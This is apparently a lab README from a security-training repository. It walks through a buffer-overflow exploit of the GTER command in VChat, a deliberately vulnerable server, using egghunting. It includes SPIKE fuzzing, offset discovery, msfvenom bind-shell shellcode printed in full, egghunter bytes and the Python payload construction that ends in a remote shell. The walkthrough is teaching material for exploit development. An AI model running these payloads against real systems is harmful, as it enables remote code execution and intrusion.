# VChat GTER Exploit: Egg Hunting

*Notice*: The following exploit, and its procedures are based on the original [Blog](https://fluidattacks.com/blog/vulnserver-gter/).
___

Not all buffer overflows are created equal. In this exploit we will be faced with an execution environment with very limited space once the overflow has occurred. To circumnavigate this we will use a technique known as [EggHunting](https://www.hick.org/code/skape/papers/egghunt-shellcode.pdf). A [common technique](https://www.rapid7.com/blog/post/2012/07/06/an-example-of-egghunting-to-exploit-cve-2012-0124/) where the attacker places a small set of shellcode into the execution environment (the stack) which then proceeds to scan the virtual memory allocated to the process for a *tag*. This *tag* is used to identify where the rest of the malicious shellcode is and to then jump to that location continuing execution but now of our malicious shellcode.  

We use this, as it allows us to circumnavigate space constraints on the stack by placing the small egghunting shellcode onto the stack; with the much larger exploit placed into another segment of memory in the program such as the [heap](https://learn.microsoft.com/en-us/cpp/mfc/memory-management-heap-allocation?view=msvc-170) where we have more space.

## EggHunting What is it
EggHunters are delicate applications, they are designed to be small and *safely* search the *entire* virtual memory region allocated to a process [1]. There are a number of ways the EggHunter could crash the system, the first and foremost is an attempt to dereference an address that points to a unallocated region of memory so safety and reliability are a major concern. 

The EggHunter works by searching the address space for a four byte tag *repeated twice* (eight bytes total). This is done as the EggHunter itself must contain a copy of the tag, and could possibly find itself in it's search through the virtual memory [1]. To prevent this the EggHunter searches for two contiguous entries of the tag in memory as this guarantees we have found the shell code, and not the EggHunter. There is a small chance of a collision (false positive), but this is unlikely and is outweighed by the optimizations and space efficiency achieved by using the repeated 4-byte value [1]. 

> An interesting thing to note as described in the original document [1] on EggHunters, is they described how the *tag* value may have to be valid assembler output. That is the tag should be valid and executable machine code as the Egg Hunting shell code may jump directly into the Tag address and start executing. If the tag was not valid machine code the program would then crash!

EggHunters rely on system calls, or exception handing mechanisms that are specific to the target operating systems. For Linux they exploit a set of systemcalls or in a more obtrusive manner override the SIGSEGV exception handler [1]. In Windows they exploit a Windows specific feature Structured Exception Handling covered in a [later lab](http://www.github.com/daintyjet/VChat_SEH) or systemcalls as can be done in linux. This means each EggHunter is for use on a specific operating system, and at times a specific version of that operating system.

## Exploit Process
The following sections cover the process that should (Or may) be followed when preforming this exploitation on the VChat application. It should be noted, that the [**Dynamic Analysis**](#dynamic-analysis) section makes certain assumption primarily that we have access to the binary that may not be realistic however the enumeration and exploitation of generic Windows, and Linux servers in order to procure this falls out of the scope of this document. 

**Notice**: Please setup the Windows and Linux systems as described in [SystemSetup](../00-SystemSetup/README.md)!
### PreExploitation
1. **Windows**: Setup VChat
   1. Compile VChat and it's dependencies if they has not already been compiled. This is done with mingw 
      1. Create the essfunc object File 
		```powershell
		$ gcc.exe -c essfunc.c
		```
      2. Create the [DLL](https://learn.microsoft.com/en-us/troubleshoot/windows-client/deployment/dynamic-link-library) containing functions that will be used by the VChat.   
		```powershell
		# Create a the DLL with an 
		$ gcc.exe -shared -o essfunc.dll -Wl,--out-implib=libessfunc.a -Wl,--image-base=0x62500000 essfunc.o
		```
         * ```-shared -o essfunc.dll```: We create a DLL "essfunc.dll", these are equivalent to the [shared library](https://tldp.org/HOWTO/Program-Library-HOWTO/shared-libraries.html) in Linux. 
         * ```-Wl,--out-implib=libessfunc.a```: We tell the linker to generate generate a import library "libessfunc".a" [2].
         * ```-Wl,--image-base=0x62500000```: We specify the [Base Address](https://learn.microsoft.com/en-us/cpp/build/reference/base-base-address?view=msvc-170) as ```0x62500000``` [3].
         * ```essfunc.o```: We build the DLL based off of the object file "essfunc.o"
      3. Compile the VChat application 
		```powershell
		$ gcc.exe vchat.c -o vchat.exe -lws2_32 ./libessfunc.a
		```
         * ```vchat.c```: The source file is "vchat.c"
         * ```-o vchat.exe```: The output file will be the executable "vchat.exe"
         * ```-lws2_32 ./libessfunc.a```: Link the executable against the import library "libessfunc.a", enabling it to use the DLL "essfunc.dll"
   2. Launch the VChat application 
		* Click on the Icon in File Explorer when it is in the same directory as the essfunc dll
2. **Linux**: Run NMap
	```sh
	# Replace the <IP> with the IP of the machine.
	$ nmap -A <IP>
	```
   * We can think of the "-A" flag like the term aggressive as it does more than the normal scans, and is often easily detected.
   * This scan will also attempt to determine the version of the applications, this means when it encounters a non-standard application such as *VChat* it can take 30 seconds to 1.5 minuets depending on the speed of the systems involved to finish scanning. You may find the scan ```nmap <IP>``` without any flags to be quicker!
   * Example results are shown below:

		

3. **Linux**: As we can see the port ```9999``` is open, we can try accessing it using **Telnet** to send unencrypted communications
	```
	$ telnet <VChat-IP> <Port>

	# Example
	# telnet 127.0.0.1 9999
	```
   * Once you have connected, try running the ```HELP``` command, this will give us some information regarding the available commands the server processes and the arguments they take. This provides us a starting point for our [*fuzzing*](https://owasp.org/www-community/Fuzzing) work.
   * Exit with ```CTL+]```
   * An example is shown below

		

4. **Linux**: We can try a few inputs to the *GTER* command, and see if we can get any information. Simply type *GTER* followed by some additional input as shown below

	

	* Now, trying every possible combinations of strings would get quite tiresome, so we can use the technique of *fuzzing* to automate this process as discussed later in the exploitation section.
### Dynamic Analysis 
#### Launch VChat
1. Open Immunity Debugger

	 

    * Note that you may need to launch it as the *Administrator* this is done by right clicking the icon found in the windows search bar or on the desktop as shown below:
			
	

2. Attach VChat: There are Two options! 
   1. When the VChat is already Running 
        1. Click File -> Attach

			

		2. Select VChat 

			

   2. When VChat is not already Running -- This is the most reliable option!
        1. Click File -> Open, Navigate to VChat

			

        2. Click "Debug -> Run"

			

        3. Notice that a Terminal was opened when you clicked "Open" Now you should see the program output

			
3. Ensure that the execution in not paused, click the red arrow (Top Left)
	
	

#### Fuzzing
SPIKE is a C based fuzzing tool that is commonly used by professionals, it is available in the [kali linux](https://www.kali.org/tools/spike/) and other [pen-testing platforms](https://www.blackarch.org/fuzzer.html) repositories. We should note that the original reference page appears to have been taken over by a slot machine site at the time of this writing, so you should refer to the [original writeup](http://thegreycorner.com/2010/12/25/introduction-to-fuzzing-using-spike-to.html) of the SPIKE tool by vulnserver's author [Stephen Bradshaw](http://thegreycorner.com/) in addition to [other resources](https://samsclass.info/127/proj/p18-spike.htm) for guidance. The source code is still available on [GitHub](https://github.com/guilhermeferreira/spikepp/) and still maintained on [GitLab](https://gitlab.com/kalilinux/packages/spike).

1. Open a terminal on the **Kali Linux Machine**
2. Create a file ```GTER.spk``` file with your favorite text editor. We will be using a SPIKE script and interpreter rather than writing out own C based fuzzer. We will be using the [mousepad](https://github.com/codebrainz/mousepad) text editor.
	```sh
	$ mousepad GTER.spk
	```
	* If you do not have a GUI environment, a editor like [nano](https://www.nano-editor.org/), [vim](https://www.vim.org/) or [emacs](https://www.gnu.org/software/emacs/) could be used 
3. Define the FUZZER parameters, we are using [SPIKE](https://www.kali.org/tools/spike/) with the ```generic_send_tcp``` interpreter for TCP based fuzzing.  
		
	```
	s_readline();
	s_string("GTER ");
	s_string_variable("*");
	```
    * ```s_readline();```: Return the line from the server
    * ```s_string("GTER ");```: Specifies that we start each message with the *String* GTER
    * ```s_string_variable("*");```: Specifies a String that we will mutate over, we can set it to * to say "any" as we do in our case 
4. Use the Spike Fuzzer 	
	```
	$ generic_send_tcp <VChat-IP> <Port> <SPIKE-Script> <SKIPVAR> <SKIPSTR>

	# Example 
	# generic_send_tcp 10.0.2.13 9999 GTER.spk 0 0	
	```
   * ```<VChat-IP>```: Replace this with the IP of the target machine 
   * ```<Port>```: Replace this with the target port
	* ```<SPIKE-Script>```: Script to run through the interpreter
	* ```<SKIPVAR>```: Skip to the n'th **s_string_variable**, 0 -> (S - 1) where S is the number of variable blocks
	* ```<SKIPSTR>```: Skip to the n'th element in the array that is **s_string_variable**, they internally are an array of strings used to fuzz the target.
5. Observe the results on VChat's terminal output

	

	* Notice that the VChat appears to have crashed after our second message! We can see that the SPIKE script continues to run for some more iterations before it fails to connect to the VChat's TCP socket, however this is long after the server started to fail connections.
6. We can also look at the comparison of the Register values before and after the fuzzing in Immunity Debugger 
	* Before 

		

	* After

		

      * The best way to reproduce this is to use [exploit0.py](./SourceCode/exploit0.py).
7. We can examine the messages SPIKE is sending by examining the [tcpdump](https://www.tcpdump.org/) or [wireshark](https://www.wireshark.org/docs/wsug_html/) output.

	 

	* After capturing the packets, right click a TCP stream and click follow! This allows us to see all of the output.

		 


#### Further Analysis
1. Generate a Cyclic Pattern. We do this so we can tell *where exactly* the return address is located on the stack. We can use the *Metasploit* program [pattern_create.rb](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_create.rb). By analyzing the values stored in the register, we can tell where in memory the return address is stored. 
	```
	/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 400
	```
	* This will allow us to inject a new return address at that location.
2. Run the [exploit1.py](./SourceCode/exploit1.py) to inject the cyclic pattern into the Vulnserver program's stack and observe the EIP register. 

	

3. Notice that the EIP register reads `38654137` in this case, we can use the [pattern_offset.rb](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb) script to determine the address offset based on out search strings position in the pattern. 
	```
	$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 38654137
	```
	* This will return an offset as shown below 

	 

4. The next thing that is done, is to modify the exploit program to reflect the file [exploit2.py](./SourceCode/exploit2.py)
   * We do this to validate that we have the correct offset for the return address!

		 

		* See that the EIP is a series of the value `42` that is a series of Bs. This tells us that we can write an address to that location in order to change the control flow of the program.
		* Note: It took a few runs for this to work and update on the Immunity debugger.
5. Use the [mona.py](https://github.com/corelan/mona) python program within the Immunity Debugger to determine some useful information. We run the command ```!mona findmsp``` in the command line at the bottom of Immunity Debugger. **Note:** We must have sent the cyclic pattern in the stack frame at this time!

	

      * We can see that the offset (Discovered with [pattern_offset.rb](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb) earlier) is at the byte offset of 143, the ESP has 23 bytes after jumping to the address in the ESP register, and the EBP is at the byte offset 139.
      * The most important thing we learn is that we have 24 bytes to work with! This is not much...  However we know there is 144 Bytes of **free space** from the **start** to the **end** of our **buffer**!
6. Open the `Executable Modules` window from the **views** tab. This allows us to see the memory offsets of each dependency VChat uses. This will help inform us as to which `jmp esp` instruction to pick, since we want to avoid any *windows dynamic libraries* since their base addresses may vary between executions and systems. 

	

7. Use the command `!mona jmp -r esp -cp nonull -o` in the Immunity Debugger command line to find some `jmp esp` instructions.

	

      * The `-r esp` flag tells *mona.py* to search for the `jmp esp` instruction
      * The `-cp nonull` flag tells *mona.py* to ignore null values
      * The `-o` flag tells *mona.py* to ignore OS modules
      * We can select any output from this, 

	

      * We can see there are nine possible `jmp esp` instructions in the essfunc dll that we can use, any should work. We will use the last one `0x6250151e`

8. Use a program like [exploit3.py](./SourceCode/exploit3.py) to verify that this works.
   1. Click on the black button highlighted below, enter in the address we decided in the previous step

		

   2. Set a breakpoint at the desired address (Right click)

		

   3. Run the [exploit3.py](./SourceCode/exploit3.py) program till a overflow occurs (See EIP/ESP and stack changes), you should be able to tell by the black text at the bottom the the screen that says `Breakpoint at ...`.

		 

         * Notice that the EIP now points to an essfunc.dll address!

	4. Once the overflow occurs click the *step into* button highlighted below 

		

	5. Notice that we jump to the stack we just overflowed!

		 


Now that we have all the necessary parts for the creation of a exploit we will discuss what we have done so far (the **exploit.py** files), and how we can now expand our efforts to gain a shell in the target machine. 
### Exploitation
1. As we noted in the previous section there is **only** 24 bytes of free space after the `jmp esp` instruction is executed. We cannot create shellcode that allows remote execution in that amount of space. However we can place instructions in that memory region that will allow us to use the 144 bytes of space allocated to the buffer we overflowed to reach the return address. *Note*: Addresses and offsets may vary!
   1. We can use the [jump instruction](https://c9x.me/x86/html/file_module_x86_id_147.html) and preform a unconditional jump to a offset relative to it's current address. This relative offset is important as we are working with the stack, where the address may change between calls and executions. 
   2. Perform step number `8` from the PreExploitation section
   3. Scroll up to the start of the buffer we overflowed, we can find this by looking for where the `A`'s start they have the value of 41 as shown before. IN this case the address is `00EBF965` or `00FCF965`

		 

   4. We now want to overwrite the start of the `B` buffer with a `jmp` instruction to continue execution but at the start of our buffer. Right click the location and click assemble as shown below 

		 

   5. Now enter the instruction `jmp 00EBF965` where `00EBF965` may be replaced with your own stack address. 

		 

   6. Now we can see the newly assembled instruction and step into it to verify that it works!

		 

	7. Copy the resulting assembly into [exploit4.py](./SourceCode/exploit4.py), right click the `jmp` instruction and select binary copy as shown below.

		 

         * You then need to convert the hex into what python expects, `E9 66 FF FF FF` becomes `\xe9\x66\xffxff\xff`
			E9 66 FF FF FF


	8. Run [exploit4.py](./SourceCode/exploit4.py) with the breakpoint set at `jmp esp` as was described in step number `8` from the PreExploitation section. Follow it and make sure we jump to the start of the buffer. That is after hitting the `jmp esp` breakpoint, and clicking step into button once you should see the `jmp` instruction as shown below.

		 

2. Now that we can jump to the start of the buffer, we can make the EggHunter Shellcode that will be executed.
   * If you follow older walkthroughs, or use this on newer Windows systems you may face issues due to changes in  systemcall interface. 
     * In the case of the jump from Windows-7 to 10 the `INT 2E` instruction not being supported in Windows 10 is a reason it may fail [5] [6].
   * The ```msf-egghunt``` [generation method](https://armoredcode.com/blog/a-closer-look-to-msf-egghunter/) as described in some blog posts does not work for VChat when running on Windows 10, as we can see it contains the `INT 2E` interrupt 

		 
		
         *  This was generated using `msf-egghunter -p windows -a x86 -f python -e w00t`
            *  `-p windows`: Specifies the windows platform 
            *  `-a x86`: Specifies a x86 target architecture
            *  `-f python`: format output for a python script 
            *  `-e w00t`: Egg to search for.
   
   * We can use Immunity Debugger and ```mona.py``` to generate a egghunter that works
     1. Open immunity debugger and use the command `!mona egg -t w00t -wow64 -winver 10`
        * `!mona`: Use the mona tool
        * `egg`: Use the EggHunter generation option
        * `-wow64`: Generate for a 64 bit machine
        * `-winver 10`: Generate for a windows 10 machine 
     2. Copy the output shown below to [exploit5.py](./SourceCode/exploit5.py), this can be found in the file `egghunter.txt` file in the folder `C:\Users\<User>\AppData\Local\VirtualStore\Program Files (x86)\Immunity Inc\Immunity Debugger`, where `<User>` is replaced by your username. *Note: This may change from system to system!*

		 

3. We will also need a bind shell, this is a program that listens for connections on the target machine and provides a shell to anyone that makes a tcp connection. We can generate the shell with the following command. 
	```
	$ msfvenom -p windows/shell_bind_tcp RPORT=4444 EXITFUNC=thread -f python -v SHELL -b '\x00'
	```
      * `msfvenom`: [Metasploit](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) payload encoder and generator.
      * `-p windows/shell_bind_tcp`: Specify we are using the tcp bind shell payload for windows 
      * `RPORT=4444`: Specify the Receiving (Remote) port is 4444 
      * `EXITFUNC=thread`: Exit process, this is running as a thread.
      * `-f python`: Format the output for use in a python program 
      * `-v SHELL`: Specify SHELL variable
      * `-b '\x00'`: Set bad characters

4. Create the byte array representing the shellcode as done in [exploit5.py](./SourceCode/exploit5.py), remember to prepend the *egg* repeated twice as this is what the EggHunter will use to identify the shellcode and jump to it!
	```
	SHELL = b"w00tw00t"      # The egghunter will look for this, w00t repeated twice.
	SHELL += b"\xb8\x9c\x02\xc9\x42\xda\xce\xd9\x74\x24\xf4\x5b"
	SHELL += b"\x29\xc9\xb1\x53\x31\x43\x12\x03\x43\x12\x83\x5f"
	SHELL += b"\x06\x2b\xb7\xa3\xef\x29\x38\x5b\xf0\x4d\xb0\xbe"
	SHELL += b"\xc1\x4d\xa6\xcb\x72\x7e\xac\x99\x7e\xf5\xe0\x09"
	SHELL += b"\xf4\x7b\x2d\x3e\xbd\x36\x0b\x71\x3e\x6a\x6f\x10"
	SHELL += b"\xbc\x71\xbc\xf2\xfd\xb9\xb1\xf3\x3a\xa7\x38\xa1"
	SHELL += b"\x93\xa3\xef\x55\x97\xfe\x33\xde\xeb\xef\x33\x03"
	SHELL += b"\xbb\x0e\x15\x92\xb7\x48\xb5\x15\x1b\xe1\xfc\x0d"
	SHELL += b"\x78\xcc\xb7\xa6\x4a\xba\x49\x6e\x83\x43\xe5\x4f"
	SHELL += b"\x2b\xb6\xf7\x88\x8c\x29\x82\xe0\xee\xd4\x95\x37"
	SHELL += b"\x8c\x02\x13\xa3\x36\xc0\x83\x0f\xc6\x05\x55\xc4"
	SHELL += b"\xc4\xe2\x11\x82\xc8\xf5\xf6\xb9\xf5\x7e\xf9\x6d"
	SHELL += b"\x7c\xc4\xde\xa9\x24\x9e\x7f\xe8\x80\x71\x7f\xea"
	SHELL += b"\x6a\x2d\x25\x61\x86\x3a\x54\x28\xcf\x8f\x55\xd2"
	SHELL += b"\x0f\x98\xee\xa1\x3d\x07\x45\x2d\x0e\xc0\x43\xaa"
	SHELL += b"\x71\xfb\x34\x24\x8c\x04\x45\x6d\x4b\x50\x15\x05"
	SHELL += b"\x7a\xd9\xfe\xd5\x83\x0c\x6a\xdd\x22\xff\x89\x20"
	SHELL += b"\x94\xaf\x0d\x8a\x7d\xba\x81\xf5\x9e\xc5\x4b\x9e"
	SHELL += b"\x37\x38\x74\xb1\x9b\xb5\x92\xdb\x33\x90\x0d\x73"
	SHELL += b"\xf6\xc7\x85\xe4\x09\x22\xbe\x82\x42\x24\x79\xad"
	SHELL += b"\x52\x62\x2d\x39\xd9\x61\xe9\x58\xde\xaf\x59\x0d"
	SHELL += b"\x49\x25\x08\x7c\xeb\x3a\x01\x16\x88\xa9\xce\xe6"
	SHELL += b"\xc7\xd1\x58\xb1\x80\x24\x91\x57\x3d\x1e\x0b\x45"
	SHELL += b"\xbc\xc6\x74\xcd\x1b\x3b\x7a\xcc\xee\x07\x58\xde"
	SHELL += b"\x36\x87\xe4\x8a\xe6\xde\xb2\x64\x41\x89\x74\xde"
	SHELL += b"\x1b\x66\xdf\xb6\xda\x44\xe0\xc0\xe2\x80\x96\x2c"
	SHELL += b"\x52\x7d\xef\x53\x5b\xe9\xe7\x2c\x81\x89\x08\xe7"
	SHELL += b"\x01\xa9\xea\x2d\x7c\x42\xb3\xa4\x3d\x0f\x44\x13"
	SHELL += b"\x01\x36\xc7\x91\xfa\xcd\xd7\xd0\xff\x8a\x5f\x09"
	SHELL += b"\x72\x82\x35\x2d\x21\xa3\x1f"
	```
5. Generate Shellcode Packet (Python), Due to the structure of the VChat server, our packet that contains the larger shellcode is a bit more complicated. 
      * In some walkthroughs they do not perform any overflow, this is because the original Vulnserver contains memory leaks where the received data is allocated on the heap, and is not de-allocated with a `free()` call.
      * In VChat, the heap allocations are de-allocated, therefore we need to perform an overflow in the **TRUN** buffer as that can hold the shellcode, and prevent the thread that is handling the **TRUN** message from exiting and de-allocating our shellcode.
      * We will perform an overflow as is done in the [TURN exploitation](https://github.com/DaintyJet/VChat_TURN), however we will add two `JMP` instructions and a [NOP Sled](https://unprotect.it/technique/nop-sled/), in this case the NOP Sled allows us to jump to an arbitrary location in the buffer, and fall down into the `JMP` instruction placed before the return address allowing us to easily create an infinite loop.
        * I simply picked an arbitrary location in the buffer to jump to and assembled the instruction as done in `step 1` of the exploitation procedure. 
	```
	PAYLOAD_SHELL = (
    	b'TRUN /.:/' +                        # TRUN command of the server
    	SHELL +                               # Shell code
    	b'\x90' * (2003 - (len(SHELL) + 5)) + # Padding! We have the shellcode, and 5 bytes of the jump we account for
    
    	# 62501205   FFE4             JMP ESP
    	# Return a bytes object.
    	# Format string '<L': < means little-endian; L means unsigned long
    	b'\xe9\x30\xff\xff\xff' +      # Jump back into NOP sled so we create an infinite loop
    	struct.pack('<L', 0x6250151e)+ # Override Return address, So we can execute on the stack
    	b'\xe9\x30\xff\xff\xff'        # Jump into NOP sled
	)
	```
      * `b'TRUN /.:/'`: We are targeting the **TRUN** buffer as this has the space we need for the shellcode
      * `SHELL`: The Shellcode is placed in the buffer, this can be done anywhere but placing it at the front allows us to avoid accidentally jumping into it.
      * `b'\x90' * (2003 - (len(SHELL) + 5))`: Create a NOP Sled, we do not want to overshoot the return address so we need to account for the length of the shellcode, and the 5 byte instruction for the `JMP` we will perform
      * `b'\xe9\x30\xff\xff\xff'`: This is one of the two `JMP` instructions, this is placed before the return address to prevents us from executing the address as an instruction which may lead to a crashed system state.
      * `struct.pack('<L', 0x6250151e)`: A `JMP ESP` address, this is one of the ones we had discovered with the mona/py command `!mona jmp -r esp -cp nonull -o` in the immunity debugger.
      * `b'\xe9\x30\xff\xff\xff'`: This is one of the two `JMP` instructions, this is placed after the return address so once we take control of the thread when the `JMP ESP` instruction is executed we enter an infinite loop, which prevents us from exiting the function and de-allocating the shellcode we injected for the EggHunter to find. 

6. Generate the EggHunter packet (Python).
	```
	PAYLOAD = (
		b'GTER /.:/' +
		EGGHUNTER +
		b'A' * (143 - len(EGGHUNTER)) +
		# 625011C7 | FFE4 | jmp esp
		struct.pack('<L', 0x625014dd) +
		# JMP to the start of our buffer
		b'\xe9\x66\xff\xff\xff' +
		b'C' * (400 - 147 - 4 - 5)
	)
	```
	* `b'GTER /.:/'`: We are overflowing the buffer of the **GTER** command
	* `EGGHUNTER`: Remember there is not enough space after the return address for the EggHunter shellcode, So we need to place it at the beginning of the buffer (After the command instruction!)
	* `b'A' * (143 - len(EGGHUNTER))`We need to overflow up to the return address so we can overflow it, this can be `A`'s as we used here or the NOP (`\x90`) instruction as used for the **TRUN** overflow in ```step 5```. Since we have space taken up by the EggHunter's shellcode we do not want to overshoot our target and must take it into account!
	* `struct.pack('<L', 0x625014dd)`: A `JMP ESP` address, this is one of the ones we had discovered with the mona/py command `!mona jmp -r esp -cp nonull -o` in the immunity debugger. *Notice* that it is different from the one we used in the **TRUN** instruction! This is only done so we can more easily observe the two packets by setting breakpoints on two unique `JMP ESP` instructions.
	* `b'\xe9\x66\xff\xff\xff'`: This is the only `JMP` instruction we use in the **GTER** overflow, this is placed after the return address so once we take control of the thread when the `JMP ESP` instruction is executed we enter the **GTER** buffer and begin executing the EggHunter.
	* `b'C' * (400 - 147 - 4 - 5)`: Final padding (May be omitted)
7. You now need to setup Immunity Debugger so it allows exceptions to occur.
   1. Open Immunity Debugger 
   2. Click Options, and then *Debug Options* as displayed below

		 

   3. Access the Exceptions Tab, if nothing is showing click any other tab first, then select the Exceptions tab

		 

   4. Check All options as shown below (and above!)

		 

8. Organize the python file as shown in [exploit5.py](./SourceCode/exploit5.py), here we will mainly focus on the order we send the payloads.
	```
	with socket.create_connection((HOST, PORT)) as fd:
		print("Connected...")
		print(fd.recv(1024)) # Get welcome message 
		print(fd.recv(1024)) # Get "You are user X" message
		print("Sending shellcode:")
		fd.sendall(PAYLOAD_SHELL)
		print("Shellcode has been staged")

	with socket.create_connection((HOST, PORT)) as fd:
		print("Connected...")
		print(fd.recv(1024)) # Get welcome message 
		print(fd.recv(1024)) # Get "You are user X" message
		print("Sending first stage:")
		fd.sendall(PAYLOAD)
		print('Done!\nCheck the port 4444 of the victim.\nThis may take a few minuets!')
	```
      * First we send the bind shellcode packet, this is so the "egg" is staged in memory for the EggHunter.
      * Then we send the EggHunter, once this is sent it should start scanning memory. Give this a few minuets and we should be able to connect to port 4444 on the target machine for a shell.  
9. Run your exploit program, it should be equivalent to [exploit5.py](./SourceCode/exploit5.py), and you should see the following output. 

	 

   * If you do not see this, the exploit may have failed. Restart VChat and try again!
   * This can be done against the VChat server attached to Immunity Debugger or against it as a standalone program. Due to resource limitations we tend to run it detached from the Immunity Debugger. 

10. After a few minuets we can use ```nc <IP> <Port>``` to connect to the server and acquire a shell as shown below 

	 


## VChat Code
Please refer to the [TRUN exploit](https://github.com/DaintyJet/VChat_TURN) for an explanation as to how and why the TURN overflow exploits VChat's code. The following discussion on the ```DWORD WINAPI ConnectionHandler(LPVOID CSocket)``` function and the ```TRUN``` case will be on how we bypassed the zeroing of ```TurnBuf``` and the freeing of ```RecvBuf``` and why it was done the way we did it. 

Most exploitations of the original [Vulnserver](https://github.com/stephenbradshaw/vulnserver) use the fact it contains memory leaks to preform the EggHunter attack. That is, the ```RecvBuff``` is allocated on the heap in the following manner:

	```c
	char *RecvBuf = malloc(DEFAULT_BUFLEN);
	```

There is no call to the function ```free()`` in the original [Vulnserver](https://github.com/stephenbradshaw/vulnserver), this causes a memory leak where the malicious shellcode is injected into the heap, and even after the handling thread exits it is still on the heap for the EggHunter to find. 


VChat contains the following code snipit at the end of the ```DWORD WINAPI ConnectionHandler(LPVOID CSocket)``` function: 

	```c
	closesocket(Client);
	free(RecvBuf);
	free(GdogBuf);
	```

This means our shellcode is de-allocated when the function ends, and since this is a thread our shellcode gets overwritten or removed before we are able to find it with the EggHunter. In this case it was decided that we would exploit the **TRUN** command since it has a buffer large enough for the bind shellcode, and to prevent the memory from being zeroed, or deallocated we would introduce an infinite loop into the buffer overflow. This prevents the program from freeing the allocated memory without crashing the program. However this will make the program use up most if not all of your CPU! 
> It of course would be more efficient to simply execute the shellcode in the **TRUN** command but that defeats the purpose of this exercise!


The **GTER** case in the ```DWORD WINAPI ConnectionHandler(LPVOID CSocket)``` function has the following structure:

```c
char* GterBuf = malloc(180);
memset(GdogBuf, 0, 1024);
strncpy(GterBuf, RecvBuf, 180);
memset(RecvBuf, 0, DEFAULT_BUFLEN);
Function1(GterBuf);
SendResult = send(Client, "GTER ON TRACK\n", 14, 0);
```			

1. It declares the ```GterBuf``` buffer and allocates space for 180 bytes (characters)
2. It zeros the ```GdogBuf``` which is not used in this function. 
3. It copies over 180 characters from the ```RecvBuff``` into the ```GterBuf```
4. It Zeros out the ```RecvBuff```, in the original Vulnserver this prevents us from using **GTER** to both stage the bind shell's shellcode and inject the EggHunter
5. It calls Function1 with the GterBuf

The Overflow occurs in ```Function1(char*)```: 

```c
void Function1(char *Input) {
	char Buffer2S[140];
	strcpy(Buffer2S, Input);
}
```
1. We declare a local buffer ```Buffer2S``` who's space for 140 characters is allocated on the *stack*
2. We copy ```Input```, which in this case can hold up to 180 characters into ```Buffer2S```

Our ability to modify the programs execution is because the C [standard library function](https://man7.org/linux/man-pages/man3/strcpy.3.html) ```strcpy(char* dst, char* src)``` is used to copy the passed parameter *Input* (i.e. KnocBuf) into a local buffer ```Buffer2S[140]```. Unlike the C [standard library function](https://cplusplus.com/reference/cstring/strncpy/) ```strncpy(char*,char*,size_t)``` used in the ```ConnectionHandler(LPVOID CSocket)``` which copies only a specified number of characters to the destination buffer. The ```strcpy(char* dst, char* src)``` function does not preform any **bound checks** when copying data from the **source** to **destination** buffer, it will stop copying once every byte up to and including a **null terminator** (`\0`) from the **source** buffer has been copied contiguously to the **destination** buffer. This allows overflows to occur since we can as is done in ```Function1(char*)``` copy a larger string into an array that does not have the space for it. As ```Buffer2S``` is allocated on the stack, when we overflow it we are able to modify the contents of the stack which includes the return address for the function.

<!-- ##### End Planning
However, the "egghunter code" provided in the tutorial cannot work in Windows 10.
```
$ msf-egghunter -e w00t -f python -v EGGHUNTER
EGGHUNTER =  b""
EGGHUNTER += b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd"
EGGHUNTER += b"\x2e\x3c\x05\x5a\x74\xef\xb8\x77\x30\x30\x74"
EGGHUNTER += b"\x89\xd7\xaf\x75\xea\xaf\x75\xe7\xff\xe7"
```

The following screenshot shows an exception is generated when executing the instruction *INT 2E* (a software interrupt for entering the kernel mode, like *syscalls*) from the above egghunter code. The program is finally terminated with exit code C0000005. More details about the issue of using *INT 2E* in Win64 system can be found [here](https://www.corelan.be/index.php/2011/11/18/wow64-egghunter/).




The above egghunter code cannot be used in Windows 10, so I generated a compatible egghunter following this [video tutorial](https://www.youtube.com/watch?v=E82IydovVf4) (start from 17:15).

## Solutions
In short, there are two things that are not mentioned in the original blog and you have to do to make the exploitation work in a Windows 10 machine:  

- **First**, Generating the compatible egghunter code by using mona in the debugger
```
!mona egg -t w00t -wow64 win10
```

The generated code is as followed
```
EGGHUNTER += b"\x33\xd2\x66\x81\xca\xff\x0f\x33\xdb\x42\x53\x53\x52\x53\x53\x53"
EGGHUNTER += b"\x6a\x29\x58\xb3\xc0\x64\xff\x13\x83\xc4\x0c\x5a\x83\xc4\x08\x3c"
EGGHUNTER += b"\x05\x74\xdf\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xda\xaf\x75\xd7"
EGGHUNTER += b"\xff\xe7"
```

- **Second**, ignore all exceptions in the debugger. This can be set in the debugger: Options -> Debugging options -> Exceptions, and select all exceptions.

 -->

## Test setting
- Local host: Kali VM
- Victim host: Windows Machine

## Test code
1. [exploit0.py](SourceCode/exploit1.py): Sends a reproduction of the fuzzed message that crashed the server.
2. [exploit1.py](SourceCode/exploit1.py): Sends a cyclic pattern of chars to identify the offset used to modify the memory at the address we need to inject to control EIP.
3. [exploit2.py](SourceCode/exploit2.py): Replacing the bytes at the offset discovered by exploit1.py with the address of a different value (`B`) so we can ensure the offset we discovered is correct.
4. [exploit3.py](SourceCode/exploit3.py): Replacing the bytes at the offset discovered by exploit1.py with the address of a `jmp esp` instruction. This is used to modify the control flow, and test that our address for `jmp esp` is correct.
3. [exploit4.py](SourceCode/exploit4.py): Adding a instruction allowing us to jump to the start of the buffer. 
4. [exploit5.py](SourceCode/exploit5.py): Adding egghunter shellcode to the payload and adding a seperate bind shell payload to the exploit.

## References
[1] https://www.hick.org/code/skape/papers/egghunt-shellcode.pdf

[2] https://www.coalfire.com/the-coalfire-blog/the-basics-of-exploit-development-3-egg-hunters#:~:text=Generally%2C%20an%20Egg%20Hunter%20is,one%20directly%20follows%20the%20other. <!-- May be used for Egg Hunting Hyper Link -->

[3] https://armoredcode.com/blog/a-closer-look-to-msf-egghunter/

[4] https://www.offsec.com/metasploit-unleashed/egghunter-mixin/ 

[5] https://stackoverflow.com/questions/70028273/x86-64-can-a-64-bit-application-on-windows-execute-int-2e-instead-of-syscall 

[6] https://learn.microsoft.com/en-us/virtualization/hyper-v-on-windows/tlfs/vsm